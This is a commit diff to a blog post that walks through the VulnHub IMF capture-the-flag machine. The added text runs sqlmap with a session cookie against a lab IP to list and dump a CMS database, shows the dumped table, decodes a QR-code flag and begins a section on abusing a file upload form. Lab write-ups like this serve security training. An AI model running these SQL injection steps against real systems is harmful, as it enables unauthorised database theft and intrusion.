

Before and after one commit to educationnull/thejaspher.github.io, a Jekyll site: the page built from _posts/2016-11-09-vulnhub-imf.md, in a window 1280 px wide and 1400 px high, scrolled down 5565 px. Shown: the whole window, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 6195 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2016-11-09-vulnhub-imf.md

````diff
--- a/_posts/2016-11-09-vulnhub-imf.md
+++ b/_posts/2016-11-09-vulnhub-imf.md
@@ -252,4 +252,55 @@ http://172.16.1.76/imfadministrator/cms.php?pagename='or 'a'='a':
 Under Construction.
 ```
 
-I tried doing this by hand but resorted to using sqlmap. Since you can only access the CMS after logging in, you will need to pass the PHPSESSID through sqlmap: `sqlmap -u 172.16.1.76 --cookie=PHPSESSID=b4gd9bp56ne0b0o4c6il7ep113`
+I tried doing this by hand but resorted to using sqlmap. Since you can only access the CMS after logging in, you will need to pass the PHPSESSID through sqlmap: `sqlmap -u 172.16.1.76 --cookie=PHPSESSID=b4gd9bp56ne0b0o4c6il7ep113`.
+
+I ran the following commands with enumeration switches so that I don't have to manually parse through the output
+
+```bash
+sqlmap -u 172.16.1.76 --cookie=PHPSESSID=b4gd9bp56ne0b0o4c6il7ep113
+...output
+current database:    'admin'
+...output
+
+# enumerate tables before dumping - just to get an idea
+sqlmap -u 172.16.1.76 --cookie=PHPSESSID=b4gd9bp56ne0b0o4c6il7ep113 -D admin --tables
+[12:02:23] [INFO] fetching tables for database: 'admin'
+[12:02:23] [INFO] the SQL query used returns 1 entries
+[12:02:23] [INFO] resumed: pages
+Database: admin
+[1 table]
++-------+
+| pages |
++-------+
+
+# And dump:
+sqlmap -u 172.16.1.76 --cookie=PHPSESSID=b4gd9bp56ne0b0o4c6il7ep113 -D admin --dump
+Database: admin
+Table: pages
+[4 entries]
++----+----------------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------+
+| id | pagename             | pagedata                                                                                                                                                              |
++----+----------------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------+
+| 1  | upload               | Under Construction.                                                                                                                                                   |
+| 2  | home                 | Welcome to the IMF Administration.                                                                                                                                    |
+| 3  | tutorials-incomplete | Training classrooms available. <br /><img src="./images/whiteboard.jpg"><br /> Contact us for training.                                                               |
+| 4  | disavowlist          | <h1>Disavowed List</h1><img src="./images/redacted.jpg"><br /><ul><li>*********</li><li>****** ******</li><li>*******</li><li>**** ********</li></ul><br />-Secretary |
++----+----------------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------+
+
+```
+
+So the dump gives us this unpublished page: tutorials-incomplete.
+
+Browsing to that page gives us a picture of a classroom with a QR code. I just used the Window's builtin Snipping Tool to extrat the picture of the QR, and uploaded the picture over on https://webqr.com/ to get the following flag:
+
+```
+flag4{dXBsb2Fkcjk0Mi5waHA=}
+```
+
+Which decodes to `uploadr942.php`
+
+## Backdoor
+
+The previous flag gives us an upload form located at http://172.16.1.76/imfadministrator/uploadr942.php
+
+I'm guessing this will give me a chance to upload a file, but the form does only accept a specific file-type.
````
